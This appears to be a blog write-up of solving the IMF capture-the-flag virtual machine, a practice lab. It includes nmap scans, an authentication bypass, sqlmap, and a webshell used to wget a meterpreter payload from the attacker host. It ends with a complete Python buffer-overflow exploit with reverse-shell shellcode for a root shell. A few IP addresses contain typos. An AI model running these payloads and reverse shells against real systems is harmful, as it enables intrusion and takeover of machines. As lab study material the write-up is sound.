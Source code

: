```yaml
---
layout: post
title: imf
---
```


##Finding machine on the network:

##Nmap
{% highlight bash %}
nmap -sn 172.16.161.129/24
{% endhighlight %}
Scan for hosts on my local network which gave me a machine named "imf"

Now to run nmap on the machine itself:
{% highlight bash %}
nmap -Pn -oA imf-nmap-results -p 0-65525 172.16.161.129
{% endhighlight %}
Looks like port 80 is open.

After clicking through the pages on the site and viewing their sources I found this:
{% highlight html %}
<!-- flag1{YWxsdGhlZmlsZXM==} -->
{% endhighlight %}
The first flag, having a = at the end looks base64 encoded.
{% highlight bash %}
echo YWxsdGhlZmlsZXM== | base64 -d
{% endhighlight %}
returns: allthefiles

Something I noticed on the contact page was some random weird named js files:
{% highlight html %}
<script src="js/ZmxhZzJ7YVcxbVl.js"></script>
<script src="js/XUnRhVzVwYzNS.js"></script>
<script src="js/eVlYUnZjZz09fQ==.min.js"></script>
{% endhighlight %}
Those all might combine into a base64 string, lets check it out
{% highlight bash %}
echo ZmxhZzJ7YVcxbVlXUnRhVzVwYzNSeVlYUnZjZz09fQ== | base64 -D
{% endhighlight %}
which  returns: flag2{aW1mYWRtaW5pc3RyYXRvcg==}

after running:
{% highlight bash %}
echo aW1mYWRtaW5pc3RyYXRvcg== | base64 -D
{% endhighlight %}
I get:

imfadministrator

I tried browsing to: http://172.16.161.129/imfadministrator

Loads up a login page, upon viewing the page source I find:
{% highlight html %}
<!-- I couldn't get the SQL working, so I hard-coded the password. It's still mad secure through. - Roger -->
{% endhighlight %}
I remembered seeing emails on the contact page, went page and sure enough roger is a user, rmichaels is his email.

Trying the user it seems the user is valid.

After some googling, looks like there is a potential authentication type conversion that might get us around authentication.  Looking at a post changing the type of the data that is received server side could bypass authentication.  Intercepting the HTTP post with burp and changing pass to pass[], this ends up sending an array down to the server instead of a string, improper handling of the input must be how we can get past it.  Once the post is forwarded another flag: flag3{Y29udGludWVUT2Ntcw==} which decodes to: continueTOcms

{% highlight bash %}
sqlmap --url http://172.16.161.129/imfadministrator/cms.php?pagename=home --threads 5 --level 5 --cookie="PHPSESSID=phpsessionid" --dbms=MYSQL --dump
{% endhighlight %}
Important to remember the last two parameters, I missed these originally and totally didn't get some output for moving forward from the command line.

Another flag: flag4{dXBsb2Fkcjk0Mi5waHA=} which decodes to: uploadr942.php

flag5{YWdlbnRzZXJ2aWNlcw==} which decodes to: agentservices

Running ps -A through the webshell created to get flag5 I'm able to see all the processes running on the remote machine.  One item that loks interesting is knockd, usually this would indicate that a port knocking sequence exists to open a service up to the public.

Running: netstat -vatn shows a list of the processes listening on TCP, 7788 and 22 look interesting

Trying to knock the default ports (7000 8000 9000)
{% highlight bash %}
for x in 7000 8000 9000; do nmap -T4 -p $x 192.168.1.20;done;
{% endhighlight %}
No luck though when trying to hit the interesting ports.

Trying to hit port 7788:
{% highlight bash %}
curl http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=nc localhost 7788
{% endhighlight %}
I get a little shell app. Given that we are investigating "agentservice" I do a find on agent:
{% highlight bash %}
curl http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=find%20/%20-name%20%22(asterisk)agent%22
{% endhighlight %}
Which found:
/etc/xinetd.d/agent
{% highlight bash %}
curl http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=cat%20/etc/xinetd.d/agent
{% endhighlight %}
Gets:
{% highlight nginx %}
# description: The agent server serves agent sessions
# unencrypted agentid for authentication.
service agent
{
       flags          = REUSE
       socket_type    = stream
       wait           = no
       user           = root
       server         = /usr/local/bin/agent
       log_on_failure += USERID
       disable        = no
       port           = 7788
}
{% endhighlight %}
Looks like /usr/local/bin/agent is a service running.
{% highlight bash %}
curl -v http://172.16.161.1.129/imfadministrator/uploads/c59ca80d5d76.gif?c=ls%20-latr%20/usr/local/bin/agent

-rwxr-xr-x 1 root root 11896 Oct 12 22:39 /usr/local/bin/agent
{% endhighlight %}
The service runs as root, possibly a way in

In order to get a look at the binary I base64 encoded the file contents and saved it to a file locally:
{% highlight bash %}
curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=base64%20-w%200%20/usr/local/bin/agent
{% endhighlight %}
Then decoded it locally:
{% highlight bash %}
cat agentservice | base64 -d >> agentservicebinary
{% endhighlight %}
and finally decompiled the binary here: https://retdec.com/decompilation-run/

On line 37 it looks like the value: 0x2ddd984 assigns 48093572 to an int32_t variable that is used for checking if an agent's ID (passed into executable as a parameter is equal to 48093572), looks like a broken hard-coded authentication.

Also, I used this to convert the hex to an int:
{% highlight bash %}
echo $((0x2ddd984))
{% endhighlight %}
gave me: 48093572.

Next I create a meterpreter for reverse_tcp handling using msfvenom:
{% highlight bash %}
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=172.16.161.128 LPORT=4444 -f elf > imf-meterpreter
{% endhighlight %}
Now we need to get the file onto the remote machine, wget is probably the easiest.

Setting up a simple web server to host the file:

python -m SimpleHTTPServer

Now run wget on the remote machine:
{% highlight bash %}
curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=wget%20http://172.16.61.128:8000/imf-meterpreter
{% endhighlight %}
Make the meterpreter runnable:
{% highlight bash %}
curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=chmod%20777%20imf-meterpreter
curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=chmod%20a+x%20imf-meterpreter
{% endhighlight %}
Now we have a way to interact with the remote machine in metasploit

in MSF run:
{% highlight bash %}
use exploit/multi/handler
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST 172.16.161.128
set LPORT 4444
run
{% endhighlight %}

Finally, run the script:

curl -v http://172.16.161.129/imfadministrator/uploads/c59ca80d5d76.gif?c=.%2Fimf-meterpreter

Once metrepreter prompt is up setup port forwarding for the service:
{% highlight bash %}
portfwd add -l 7788 -p 7788 -r 127.0.0.1
{% endhighlight %}

Open another terminal and hit the service:
{% highlight bash %}
nc localhost 7788
{% endhighlight %}
Now we can interact with the service its time to look at the source again to find a way to exploit.

Combing through the source on line 226:
{% highlight c %}
gets((char *)&str);*
{% endhighlight %}
This reads user input, however the size of the input isn't defined, looks like a possible buffer overflow, basically we're passing in more information that the command is going to properly handle and extending the application's memory outside of it's contextual boundary causing an error to occur.

After doing some reading on ways to exploit the buffer overflow I stumbled onto the idea of return oriented programming, tl;dr; Its a way to execute a buffer overflow when defense mechanisms like code-signing and non-executable memory are employed.  In this technique you can send machine language that is already in the machine's memory, whether through the program being exploited itself or other shared libraries.  When these pieces when combined can be used to perform actions on the remote machine.

I was able to upload the agent binaries we got earlier to ropshell.com which analyzes the compiled code for items in memory that can be used in an exploit, in this case: call eax.

Ater reading through some reference docs for assembly, specifically x86 I have surmised that with our goal being getting a root shell by escaping the 'agent' service causing a buffer overflow to occur and running 'call eax.'  In doing so we would be executing whatever is in the eax register.  Another things we're going to need to do is make sure that our exploit is going to be at the address eax is referencing at runtime.  I'm basing this on using the eax register in the processor can be used to execute code held at a memory address to circumvent normal program execution, in this case getting a root shell.

Now to generate a buffer to overflow using msfvenom:

{% highlight bash %}
msfvenom -p linux/x86/shell_reverse_tcp LHOST=172.16.161.128 LPORT=4445 -f python -b "\x00\x0a\x0d"
{% endhighlight %}
This command will give up the buffer overflow shellcode for creating a reverse_tcp shell with my machine as the host and 4445 as the portand to exclude newline characters from the output.

Next write up a python script for using the exploit:
{% highlight python %}
import socket
client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect(('localhost', 7788))
client.recv(512)
client.send("48093572\n")
client.recv(512)
client.send("3\n")
client.recv(512)

#shellcode from msfvenom

buf =  ""
buf += "\xd9\xc2\xba\xa6\xf9\x71\x23\xd9\x74\x24\xf4\x58\x2b"
buf += "\xc9\xb1\x12\x31\x50\x17\x03\x50\x17\x83\x4e\x05\x93"
buf += "\xd6\xbf\x2d\xa3\xfa\xec\x92\x1f\x97\x10\x9c\x41\xd7"
buf += "\x72\x53\x01\x8b\x23\xdb\x3d\x61\x53\x52\x3b\x80\x3b"
buf += "\xc9\xab\xd3\x3b\x79\xce\x13\x2a\x27\x47\xf2\xfc\xb1"
buf += "\x07\xa4\xaf\x8e\xab\xcf\xae\x3c\x2b\x9d\x58\xd1\x03"
buf += "\x51\xf0\x45\x73\xba\x62\xff\x02\x27\x30\xac\x9d\x49"
buf += "\x04\x59\x53\x09"
#padding

buf += "A" * (168 - len(buf))

#call eax gadget
buf += "\x63\x85\x04\x08\n"

client.send(buf)

{% endhighlight %}

Now start ncat for the exploit:
{% highlight bash %}
ncat -lv 172.16.161.128 4445
{% endhighlight %}
Then run the script: python payload.py

We're in!
{% highlight bash %}
cd /root
cat Flag6.txt | base64 -d yeilds: ~GhostProtocols
cat TheEnd.txt outputs the final you won thing.
{% endhighlight %}
